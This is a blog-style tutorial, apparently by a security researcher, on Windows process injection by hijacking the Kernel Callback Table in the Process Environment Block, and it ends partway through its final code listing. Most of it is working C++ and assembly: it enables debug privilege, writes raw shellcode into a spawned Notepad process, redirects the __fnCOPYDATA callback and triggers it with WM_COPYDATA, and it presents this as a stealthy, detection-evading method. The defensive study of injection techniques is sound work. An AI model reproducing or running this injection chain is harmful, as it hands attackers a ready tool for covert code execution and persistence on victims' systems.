

# Kernel Callback Tables for Process Injection


## Table of Contents

- [Kernel Callback Tables for Process Injection](#kernel-callback-tables-for-process-injection)
  - [Table of Contents](#table-of-contents)
  - [Introduction](#introduction)
  - [My PoC](#my-poc)
  - [Understanding the Process Environment Block (PEB)](#understanding-the-process-environment-block-peb)
  - [Exploring the Kernel Callback Table](#exploring-the-kernel-callback-table)
  - [Locating and Analyzing the Kernel Callback Table](#locating-and-analyzing-the-kernel-callback-table)
    - [Locating the PEB and Kernel Callback Table](#locating-the-peb-and-kernel-callback-table)
    - [Analyzing Function Pointers within the Kernel Callback Table](#analyzing-function-pointers-within-the-kernel-callback-table)
  - [Process Injection via Kernel Callback Table Manipulation](#process-injection-via-kernel-callback-table-manipulation)
    - [Step 1 - Enabling Debug Privileges](#step-1---enabling-debug-privileges)
    - [Step 2 - Loading NtQueryInformationProcess](#step-2---loading-ntqueryinformationprocess)
    - [Step 3 - Launching the Target Process](#step-3---launching-the-target-process)
    - [Step 4 - Locating the Target Window and Process ID](#step-4---locating-the-target-window-and-process-id)
    - [Step 5 - Opening a Handle to the Target Process](#step-5---opening-a-handle-to-the-target-process)
    - [Step 6 - Retrieving the PEB Address](#step-6---retrieving-the-peb-address)
    - [Step 7 - Reading the Kernel Callback Table](#step-7---reading-the-kernel-callback-table)
    - [Step 8 - Allocating Memory for the Payload](#step-8---allocating-memory-for-the-payload)
    - [Step 9 - Modifying the Kernel Callback Table](#step-9---modifying-the-kernel-callback-table)
    - [Step 10 - Updating the PEB with the Modified Table](#step-10---updating-the-peb-with-the-modified-table)
    - [Step 11 - Triggering the Payload](#step-11---triggering-the-payload)
    - [Step 12 - Cleaning Up](#step-12---cleaning-up)
  - [Helper Assembly Code](#helper-assembly-code)
    - [LocatePEB](#locatepeb)
    - [ResolveKernelCallbackTable](#resolvekernelcallbacktable)
    - [WriteKernelCallbackTable](#writekernelcallbacktable)
  - [Putting it all together!](#putting-it-all-together)

---

## Introduction

The Kernel Callback Table in the Process Environment Block (PEB) can be hijacked by attackers to redirect a process’s execution flow, enabling them to execute malicious payloads. This method allows adversaries to maintain persistence by replacing legitimate function pointers with malicious ones, typically triggered by Windows messages.

Recognized as a hijacking execution flow and persistence technique by MITRE, this approach has been used by threat groups like FinFisher/FinSpy and Lazarus.

In this blog, we will explore the PEB, how to manipulate the Kernel Callback Table, and how this technique can be applied in process injection to stealthily execute code within a target process.

---

## My PoC
Link -> [https://github.com/0xHossam/KernelCallbackTable-Injection-PoC](https://github.com/0xHossam/KernelCallbackTable-Injection-PoC)

---

## Understanding the Process Environment Block (PEB)

The **Process Environment Block (PEB)** is a key structure in Windows that every running program relies on. Think of it as the "control center" or "hub" that holds essential information about how the program is running and interacting with the system. The PEB is part of the memory space of the process, and it helps both the operating system and the program manage various internal details.

The PEB stores important data like:

- **Loaded Modules** - These are the Dynamic Link Libraries (DLLs) or external libraries that the program needs to function. For example, programs often rely on additional code provided by system libraries like `kernel32.dll` or `user32.dll`, and the PEB keeps track of these libraries once they are loaded.

- **Heap Information** - This section of the PEB contains information about memory management for the program. The "heap" is a region of memory where the program stores data that it needs while running. The PEB helps manage and monitor how this memory is used, keeping track of allocations and deallocations.

- **Process Start Time** - The PEB also stores the time the process was created, which can be useful for understanding how long the program has been running.

- **Thread Information** - Every program runs tasks or operations through "threads," and the PEB contains data about these threads. This helps the operating system manage different tasks that the program is running at the same time.

- **Process Flags and Settings** - The PEB holds flags and configuration data that describe how the process behaves. This might include security settings, special flags for debugging, or even whether the process is being run as a subsystem of another process.

- **Memory Layout Information** - The PEB also holds data about the memory layout of the process, such as where different parts of the program’s code, data, and resources are located in memory.

---

## Exploring the Kernel Callback Table

Within the PEB lies the **Kernel Callback Table**, an array of function pointers initialized when `user32.dll` is loaded into a graphical user interface (GUI) process. This table contains pointers to various callback functions that handle window messages and other interprocess communications. Each function in this table corresponds to specific tasks, such as processing data transfer messages or managing window destruction events.

For example, the `__fnCOPYDATA` function within the Kernel Callback Table is invoked in response to the `WM_COPYDATA` window message. This function facilitates the transfer of data between applications, allowing one process to send data to another seamlessly. By understanding the structure and purpose of each function within the Kernel Callback Table, we can comprehend how processes interact and handle various system events.

---

## Locating and Analyzing the Kernel Callback Table

The **Kernel Callback Table** is a key structure within the **Process Environment Block (PEB)** of GUI processes on Windows. Adversaries can modify this table to hijack a process’s execution flow by redirecting specific function pointers to malicious payloads. This guide provides step-by-step instructions for locating and analyzing the Kernel Callback Table in WinDbg and understanding its role in process injection.

### Locating the PEB and Kernel Callback Table

1. **Identify the PEB Structure**
   - The PEB can be explored in WinDbg with the `dt` command, which displays detailed information about the structure. The `KernelCallbackTable` is typically found at an offset of `+0x058` within the PEB.
   - Use the following command in WinDbg:
     ```shell
     dt ntdll!PEB
     ```
   - This will reveal the PEB structure and its fields, including `KernelCallbackTable` at offset `+0x058`, showing where the Kernel Callback Table pointer resides.

     

2. **Locate the Kernel Callback Table Address**
   - After identifying the `KernelCallbackTable` field in the PEB, locate its address directly by accessing the field with:
     ```shell
     dt ntdll!PEB @$peb.KernelCallbackTable
     ```
   - This command provides the specific address of the Kernel Callback Table within the PEB, which holds an array of function pointers.

3. **Examine the Kernel Callback Table Contents**
   - With the address of the Kernel Callback Table obtained, use the `dqs` command to display its contents in WinDbg. This command shows each quadword (64-bit entry) starting from the specified address, revealing the callback function pointers within the table.
     ```shell
     dqs 0x00007ffa`29123070 L60
     ```
   - This command displays the first 60 quadwords (480 bytes) from the Kernel Callback Table, allowing you to inspect the callback function addresses directly.

### Analyzing Function Pointers within the Kernel Callback Table

Within the Kernel Callback Table, each entry corresponds to a pointer to a callback function that the process may call when specific Windows messages are received. Certain function pointers, like `__fnCOPYDATA`, are of particular interest because they handle data transfer through messages such as `WM_COPYDATA`. By identifying and analyzing these pointers, you can understand how the process handles certain events.

1. **Identify the `__fnCOPYDATA` Entry**
   - The `__fnCOPYDATA` function is commonly used in injection techniques because it can be triggered through `WM_COPYDATA` messages, allowing data to be passed between processes.
   - Use the `dqs` command with the Kernel Callback Table’s base address to list specific function pointers, including `__fnCOPYDATA`.
     ```shell
     dqs 0x00007ffa`29123070 L10
     ```
   - Example output:
     ```
     00007ffa`29123070  00007ffa`290c2bd0 user32!_fnCOPYDATA
     00007ffa`29123078  00007ffa`2911ae70 user32!_fnCOPYGLOBALDATA
     00007ffa`29123080  00007ffa`290c0420 user32!_fnDWORD
     ...
     ```
   - Each entry corresponds to a function pointer in the Kernel Callback Table. Here, `user32!_fnCOPYDATA` shows the address for `__fnCOPYDATA`, which can be redirected to execute custom code when a `WM_COPYDATA` message is processed.

---

## Process Injection via Kernel Callback Table Manipulation

Adversaries can manipulate the **Kernel Callback Table** of a process to hijack its execution flow, forcing it to run injected code. The **Kernel Callback Table** is an array of function pointers within the **Process Environment Block (PEB)** of a process, populated with callback functions when `user32.dll` is loaded in any graphical user interface (GUI) process. These callback functions enable communication between the system and the process, allowing the process to respond to specific Windows messages.

To hijack execution flow using the Kernel Callback Table, an attacker can replace one or more of the original callback function pointers with pointers to malicious code. This method provides a way to redirect execution from legitimate callbacks to injected payloads. Modifying these function pointers is commonly achieved by using **Reflective Code Loading** or **Process Injection**. For example, an attacker can locate the Kernel Callback Table by retrieving the PEB address through the `NtQueryInformationProcess` function, a low-level Windows API call that exposes process internals. Once the PEB is located, the attacker gains access to the Kernel Callback Table and can proceed with replacing a callback function pointer, such as `__fnCOPYDATA`, with the address of a malicious payload.

After this modification, the PEB can be updated to reference the altered Kernel Callback Table, now containing the injected payload. The malicious function is typically triggered when a specific Windows message is sent to the target process, activating the altered callback function and, consequently, the injected payload. Because this manipulation occurs within the target process’s memory, it effectively evades detection by masking the execution of the payload under a legitimate process.

Once execution is hijacked and the payload executed, advanced adversaries may restore the original Kernel Callback Table to its legitimate state to further evade detection.

### Step 1 - Enabling Debug Privileges

Before a process can manipulate another process’s memory, for testing purposes I needed to have debug privileges enabled some times. Debug privileges allow the current process to access sensitive areas of other processes, necessary for tasks like memory reading and writing. Without these privileges, Windows security would restrict access to other processes, making injection impossible.

The `EnableDebugPrivilege` function elevates privileges by modifying the current process’s token to enable the `SE_DEBUG_NAME` privilege.

```cpp
void EnableDebugPrivilege() {

    printf( "[*] Enabling Debug Privilege...\n" );
    HANDLE hToken;
    TOKEN_PRIVILEGES tkp;
    if ( OpenProcessToken( GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken ) ) {
        LookupPrivilegeValue( NULL, SE_DEBUG_NAME, &tkp.Privileges[ 0 ].Luid );
        tkp.PrivilegeCount = 1;
        tkp.Privileges[ 0 ].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges( hToken, FALSE, &tkp, sizeof( tkp ), NULL, NULL );
        CloseHandle( hToken );
    } else {
        printf( "[-] Failed to enable Debug Privilege.\n" );
    }

}
```

**Detailed Explanation**  
1. **OpenProcessToken** opens a handle to the current process’s access token, which holds the security privileges.
2. **LookupPrivilegeValue** retrieves the locally unique identifier (LUID) for the privilege `SE_DEBUG_NAME`, which grants the process debug capabilities.
3. **AdjustTokenPrivileges** sets the privilege in the token to enable debug rights, allowing the process to perform memory operations on other processes.

### Step 2 - Loading NtQueryInformationProcess

The `NtQueryInformationProcess` function from `ntdll.dll` is a low-level Windows API function that provides access to specific information about a process, including the Process Environment Block (PEB). The PEB contains structures like the **Kernel Callback Table**, which stores pointers to various callback functions. This function must be dynamically loaded because it’s not typically accessible via the standard Windows headers.

```cpp
typedef NTSTATUS( NTAPI* pNtQueryInformationProcess )( HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG );
void LoadNtQueryInformationProcess( pNtQueryInformationProcess &NtQueryInformationProcess ) {
    printf( "[*] Loading NtQueryInformationProcess...\n" );
    HMODULE hNtdll = GetModuleHandleA( "ntdll.dll" );
    if ( hNtdll ) {
        NtQueryInformationProcess = ( pNtQueryInformationProcess ) GetProcAddress( hNtdll, "NtQueryInformationProcess" );
        if ( NtQueryInformationProcess ) {
            printf( "[+] NtQueryInformationProcess loaded successfully at address: 0x%p\n", NtQueryInformationProcess );
        } else {
            printf( "[-] Failed to resolve NtQueryInformationProcess address.\n" );
        }
    }
}
```

**Detailed Explanation**  
- **GetModuleHandle** loads `ntdll.dll` into the process, giving access to its functions.
- **GetProcAddress** retrieves the address of `NtQueryInformationProcess`, enabling later calls to this function for gathering details about the target process.

### Step 3 - Launching the Target Process

The process injection begins by creating an instance of Notepad, which will serve as the target for injecting code. This example uses Notepad because it’s a simple, well-known application, allowing for controlled testing of the injection process.

```cpp
STARTUPINFO si = { sizeof( si ) };
PROCESS_INFORMATION pi;

printf( "[*] Creating new Notepad process...\n" );
if ( !CreateProcess( L"C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi ) ) {
    printf( "[-] Failed to create Notepad process. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[+] Notepad process created successfully. PID: %d\n", pi.dwProcessId );
```

**Detailed Explanation**  
- **CreateProcess** launches Notepad in a new console with process information stored in `pi`. The resulting process ID (`pi.dwProcessId`) is essential, as it identifies the Notepad process for later memory operations.

### Step 4 - Locating the Target Window and Process ID

The code locates Notepad’s window handle and retrieves its process ID. This handle provides a connection to Notepad, making it possible to open a handle to manipulate its memory.

```cpp
HWND hWindow = NULL;
DWORD waitTime = 0;
const DWORD MAX_WAIT_TIME = 10000;

while ( hWindow == NULL && waitTime < MAX_WAIT_TIME ) {
    hWindow = FindWindow( L"Notepad", NULL );
    if ( !hWindow ) {
        Sleep( 500 );
        waitTime += 500;
    }
}
if ( !hWindow ) {
    printf( "[-] Failed to find Notepad window handle after waiting for %d milliseconds.\n", MAX_WAIT_TIME );
    TerminateProcess( pi.hProcess, 0 );
    CloseHandle( pi.hProcess );
    CloseHandle( pi.hThread );
    return -1;
}
printf( "[+] Window Handle found: 0x%p\n", hWindow );

DWORD pid;
GetWindowThreadProcessId( hWindow, &pid );
printf( "[+] Process ID: %d\n", pid );
```

**Detailed Explanation**  
- **FindWindow** searches for Notepad’s window class by name and locates its handle. If the handle is found, `GetWindowThreadProcessId` retrieves the associated process ID.
- This process ID is necessary for opening a handle to access Notepad’s memory directly.

### Step 5 - Opening a Handle to the Target Process

With the process ID, the code opens a handle to Notepad. This handle allows direct access to the process’s memory, essential for injection.

```cpp
HANDLE hProcess = OpenProcess( PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, FALSE, pid );
if ( !hProcess ) {
    printf( "[-] Failed to open target process. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[+] Process Handle: 0x%p\n", hProcess );
```

**Detailed Explanation**  
- **OpenProcess** opens a handle with permissions for memory read, write, and query operations, allowing the injector to interact with Notepad’s memory.

### Step 6 - Retrieving the PEB Address

`NtQueryInformationProcess` is used to retrieve the PEB address of the target process. The PEB contains the Kernel Callback Table, which is the focus of modification in this injection technique.

```cpp
PROCESS_BASIC_INFORMATION pbi;
ULONG returnLength;
NTSTATUS status = NtQueryInformationProcess( hProcess, ProcessBasicInformation, &pbi, sizeof( pbi ), &returnLength );
if ( status != 0 ) {
    printf( "[-] Failed to query process information. NTSTATUS: 0x%lx\n", status );
    return -1;
}
PVOID PebBaseAddress = pbi.PebBaseAddress;
printf( "[*] PEB Address: 0x%p\n", PebBaseAddress );
```

**Detailed Explanation**  
- **NtQueryInformationProcess** fills in the `PROCESS_BASIC_INFORMATION` structure, including `PebBaseAddress`, giving access to the PEB for further manipulation of the Kernel Callback Table.

### Step 7 - Reading the Kernel Callback Table

With the PEB address, the code reads the Kernel Callback Table’s memory address, allowing modification of function pointers within this table to control callbacks.

```cpp
PVOID KernelCallbackTable;
SIZE_T bytesRead = 0;
if ( !ReadProcessMemory( hProcess, ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ), &KernelCallbackTable, sizeof( PVOID ), &bytesRead ) ) {
    printf( "[-] Failed to read KernelCallbackTable. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[*] KernelCallbackTable Address: 0x%p\n", KernelCallbackTable );
```

**Detailed Explanation**  
- `ReadProcessMemory` accesses the Kernel Callback Table at an offset from the PEB address, giving access to pointers controlling certain callback functions.

### Step 8 - Allocating Memory for the Payload

The payload, typically shellcode, is allocated within the target process’s memory space. The memory is marked executable to ensure the code can run.

```cpp
unsigned char my_payload[] = "..."; 
SIZE_T shellcodeSize = sizeof( my_payload );

LPVOID remotebuf = VirtualAllocEx( hProcess, NULL, shellcodeSize, MEM_RESERVE | MEM_COMMIT, PAGE

_EXECUTE_READWRITE );
if ( !remotebuf ) {
    printf( "[-] Failed to allocate remote buffer. Error: %d\n", GetLastError() );
    return -1;
}
if ( !WriteProcessMemory( hProcess, remotebuf, my_payload, shellcodeSize, NULL ) ) {
    printf( "[-] Failed to write payload to remote buffer. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[+] Payload written to remote buffer at: 0x%p\n", remotebuf );
```

**Detailed Explanation**  
- **VirtualAllocEx** allocates memory in the target process and marks it with `PAGE_EXECUTE_READWRITE`, making it both writable and executable.
- **WriteProcessMemory** writes the shellcode to the allocated space, enabling it to run when triggered.

### Step 9 - Modifying the Kernel Callback Table

The Kernel Callback Table is modified by redirecting the `__fnCOPYDATA` pointer to the injected payload. This makes Windows invoke the payload during a `WM_COPYDATA` message.

```cpp
KERNELCALLBACKTABLE cKCT;
if ( !ReadProcessMemory( hProcess, KernelCallbackTable, &cKCT, sizeof( cKCT ), &bytesRead ) ) {
    printf( "[-] Failed to read existing KernelCallbackTable. Error: %d\n", GetLastError() );
    return -1;
}
cKCT.__fnCOPYDATA = ( ULONG_PTR ) remotebuf;

LPVOID clonedcKCT = VirtualAllocEx( hProcess, NULL, sizeof( cKCT ), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE );
if ( !clonedcKCT || !WriteProcessMemory( hProcess, clonedcKCT, &cKCT, sizeof( cKCT ), NULL ) ) {
    printf( "[-] Failed to clone KernelCallbackTable. Error: %d\n", GetLastError() );
    return -1;
}
```

**Detailed Explanation**  
- `ReadProcessMemory` retrieves the Kernel Callback Table structure. The `__fnCOPYDATA` field is redirected to point to the payload, enabling its execution on `WM_COPYDATA` message receipt.

### Step 10 - Updating the PEB with the Modified Table

The altered Kernel Callback Table is written to the PEB, ensuring that Windows references this modified version.

```cpp
if ( !WriteProcessMemory( hProcess, ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ), &clonedcKCT, sizeof( PVOID ), &bytesRead ) ) {
    printf( "[-] Failed to update PEB KernelCallbackTable. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[+] PEB KernelCallbackTable updated successfully!\n" );
```

**Detailed Explanation**  
- `WriteProcessMemory` writes the modified table to the PEB, making the altered callback structure active, ready to trigger the payload.

### Step 11 - Triggering the Payload

The code sends a `WM_COPYDATA` message, which activates the `__fnCOPYDATA` function in the Kernel Callback Table, executing the payload.

```cpp
COPYDATASTRUCT cds;
WCHAR msg[] = L"trigger";
cds.dwData = 1;
cds.cbData = ( lstrlenW( msg ) + 1 ) * sizeof( WCHAR );
cds.lpData = msg;

LRESULT result = SendMessage( hWindow, WM_COPYDATA, ( WPARAM ) hWindow, ( LPARAM ) &cds );
if ( result == 0 && GetLastError() != 0 ) {
    printf( "[-] Failed to send message to trigger payload. Error: %d\n", GetLastError() );
    return -1;
}
printf( "[+] Payload triggered!\n" );
```

### Step 12 - Cleaning Up

Finally, memory allocations are released and handles closed, ensuring a clean exit and minimizing detection risks.

```cpp
VirtualFreeEx( hProcess, remotebuf, 0, MEM_RELEASE );
VirtualFreeEx( hProcess, clonedcKCT, 0, MEM_RELEASE );
CloseHandle( hProcess );
CloseHandle( pi.hProcess );
CloseHandle( pi.hThread );
printf( "[+] Cleanup completed successfully.\n" );
```

This process demonstrates step-by-step code injection through Kernel Callback Table manipulation, providing complete control over execution in the target process’s context.


---

## Helper Assembly Code

To enhance the injection process, we use some assembly functions defined in `helper.asm`. These functions help us locate the PEB and manipulate the Kernel Callback Table more efficiently.

### LocatePEB

This function retrieves the address of the PEB for the current process by accessing the `gs` segment register, which points to the Thread Information Block (TIB) in x64 architectures.

```asm
LocatePEB PROC
    mov rax, qword ptr gs:[60h] ; Access PEB in x64
    ret
LocatePEB ENDP
```

### ResolveKernelCallbackTable

Given the PEB address in the `RCX` register, this function retrieves the address of the Kernel Callback Table by accessing the memory at an offset of `0x58` within the PEB structure.

```asm
ResolveKernelCallbackTable PROC
    mov rax, qword ptr [rcx + 58h] ; Offset for KernelCallbackTable in PEB (0x58)
    ret
ResolveKernelCallbackTable ENDP
```

### WriteKernelCallbackTable

This function updates the Kernel Callback Table address in the PEB by writing a new address to the specified offset.

```asm
WriteKernelCallbackTable PROC
    mov qword ptr [rcx + 58h], rdx    ; Write the new KernelCallbackTable address
    ret
WriteKernelCallbackTable ENDP
```

These assembly functions streamline the process of interacting with the PEB and Kernel Callback Table, making our C++ code cleaner and more efficient.

---

## Putting it all together!

main.c
```c
#include <stdio.h>
#include <windows.h>
#include "struct.h"
#include "helper.h"

void LoadNtQueryInformationProcess()
{
    printf( COLOR_YELLOW_BOLD "[*] Loading NtQueryInformationProcess...\n" COLOR_RESET );
    HMODULE hNtdll = GetModuleHandle( L"ntdll.dll" );
    if ( hNtdll )
    {
        NtQueryInformationProcess = ( PFN_NTQUERYINFORMATIONPROCESS ) GetProcAddress( hNtdll, "NtQueryInformationProcess" );
        if ( NtQueryInformationProcess )
        {
            printf( COLOR_GREEN_BOLD "[+] NtQueryInformationProcess loaded successfully at address: 0x%p\n" COLOR_RESET, NtQueryInformationProcess );
        }
        else
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to resolve NtQueryInformationProcess address.\n" COLOR_RESET );
        }
    }
}

void EnableDebugPrivilege()
{
    printf( COLOR_YELLOW_BOLD "[*] Enabling Debug Privilege...\n" COLOR_RESET );
    HANDLE hToken;
    TOKEN_PRIVILEGES tkp;
    if ( OpenProcessToken( GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken ) )
    {
        LookupPrivilegeValue( NULL, SE_DEBUG_NAME, &tkp.Privileges[ 0 ].Luid );
        tkp.PrivilegeCount = 1;
        tkp.Privileges[ 0 ].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges( hToken, FALSE, &tkp, sizeof( tkp ), NULL, NULL );
        CloseHandle( hToken );
        // printf( COLOR_GREEN_BOLD "\t[+] Debug Privilege enabled.\n" COLOR_RESET );
    }
    else
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to enable Debug Privilege.\n" COLOR_RESET );
    }
}


unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
SIZE_T shellcodeSize = sizeof( payload ) - 1;
SIZE_T bytesRead = 0;

int main()
{
    printf( COLOR_YELLOW_BOLD "[*] Initializing exploit...\n" COLOR_RESET );

    EnableDebugPrivilege();
    LoadNtQueryInformationProcess();

    if ( !NtQueryInformationProcess )
    {
        printf( COLOR_RED_BOLD "\t[-] NtQueryInformationProcess is NULL. Exiting...\n" COLOR_RESET );
        return -1;
    }

    printf( COLOR_YELLOW_BOLD "[*] Starting PEB KernelCallbackTable Injection Exploit...\n\n" COLOR_RESET );

    // Step 1: Create a new Notepad process (ensure it is visible to the user)
    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFO si = { sizeof( STARTUPINFO ) };
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_SHOW;

    printf( COLOR_YELLOW_BOLD "\t[*] Creating new Notepad process...\n" COLOR_RESET );
    if ( !CreateProcess(
        L"C:\\Windows\\System32\\notepad.exe",
        NULL,
        NULL,
        NULL,
        FALSE,
        CREATE_NEW_CONSOLE,
        NULL,
        NULL,
        &si,
        &pi
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to create Notepad process. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }

    printf( COLOR_GREEN_BOLD "\t[+] Notepad process created successfully. PID: %d\n" COLOR_RESET, pi.dwProcessId );

    // Step 2: Wait for the new process to initialize
    printf( COLOR_YELLOW_BOLD "\t[*] Waiting for Notepad initialization...\n" COLOR_RESET );
    WaitForInputIdle( pi.hProcess, 1000 );

    // Step 3: Find the Notepad window handle
    HWND hWindow = NULL;
    DWORD waitTime = 0;
    while ( hWindow == NULL && waitTime < MAX_WAIT_TIME )
    {
        hWindow = FindWindow( L"Notepad", NULL );
        if ( !hWindow )
        {
            Sleep( 500 );  // Wait for 500 ms before retrying
            waitTime += 500;
        }
    }

    if ( !hWindow )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to find Notepad window handle after waiting for %d milliseconds.\n" COLOR_RESET, MAX_WAIT_TIME );
        TerminateProcess( pi.hProcess, 0 );
        CloseHandle( pi.hProcess );
        CloseHandle( pi.hThread );
        return -1;
    }

    printf( COLOR_GREEN_BOLD "\t[+] Window Handle found: 0x%p\n" COLOR_RESET, hWindow );

    // Step 4: Get the process ID of the Notepad
    DWORD pid;
    GetWindowThreadProcessId( hWindow, &pid );
    printf( COLOR_GREEN_BOLD "\t[+] Process ID: %d\n" COLOR_RESET, pid );

    HANDLE hProcess = OpenProcess(
        PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ | PROCESS_QUERY_INFORMATION,
        FALSE,
        pid
    );
    if ( !hProcess )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to open target process. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\t[+] Process Handle: 0x%p\n" COLOR_RESET, hProcess );

    // -----------------------------------------------------
    // Using NtQueryInformationProcess to get PEB
    // -----------------------------------------------------
    printf( COLOR_YELLOW_BOLD "\t[*] Retrieving PEB Address using NtQueryInformationProcess...\n" COLOR_RESET );
    PROCESS_BASIC_INFORMATION pbi;
    ULONG returnLength;
    NTSTATUS status = NtQueryInformationProcess(
        hProcess,
        ProcessBasicInformation,
        &pbi,
        sizeof( pbi ),
        &returnLength
    );
    if ( status != 0 )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to query process information. NTSTATUS: 0x%lx\n" COLOR_RESET, status );
        return -1;
    }
    PVOID PebBaseAddress = pbi.PebBaseAddress;
    printf( COLOR_BLUE_BOLD "\t\t[*] PEB Address: 0x%p\n" COLOR_RESET, PebBaseAddress );

    // Step 6: Read KernelCallbackTable from the target process's PEB
    PVOID KernelCallbackTable;
    SIZE_T bytesRead = 0;
    if ( !ReadProcessMemory(
        hProcess,
        ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ),
        &KernelCallbackTable,
        sizeof( PVOID ),
        &bytesRead
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to read KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_BLUE_BOLD "\t\t[*] KernelCallbackTable Address: 0x%p\n" COLOR_RESET, KernelCallbackTable );

    // Step 7: Read KernelCallbackTable structure from the target process
    KERNELCALLBACKTABLE CCC;
    if ( !ReadProcessMemory(
        hProcess,
        KernelCallbackTable,
        &CCC,
        sizeof( CCC ),
        &bytesRead
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to read KernelCallbackTable structure. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\n\t[+] KernelCallbackTable read successfully. %zu bytes read.\n" COLOR_RESET, bytesRead );
    printf( COLOR_BLUE_BOLD "\t\t[*] Dumping KernelCallbackTable structure:\n" COLOR_RESET );
    printf( COLOR_GREEN_BOLD "\t\t\t__fnCOPYDATA: 0x%p\n" COLOR_RESET, ( void* ) CCC.__fnCOPYDATA );
    printf( COLOR_GREEN_BOLD "\t\t\t__fnCOPYGLOBALDATA: 0x%p\n" COLOR_RESET, ( void* ) CCC.__fnCOPYGLOBALDATA );
    printf( COLOR_GREEN_BOLD "\t\t\t__fnDWORD: 0x%p\n" COLOR_RESET, ( void* ) CCC.__fnDWORD );

    // -----------------------------------------------------
    // Assembly Method: Using LocatePEB and ResolveKernelCallbackTable
    // -----------------------------------------------------
    /*
    // 
    printf( COLOR_YELLOW_BOLD "\t[*] Retrieving PEB Address using Assembly...\n" COLOR_RESET );
    PVOID PebBaseAddressASM = LocatePEB();
    printf( COLOR_BLUE_BOLD "\t\t[*] PEB Address (from ASM): 0x%p\n" COLOR_RESET, PebBaseAddressASM );

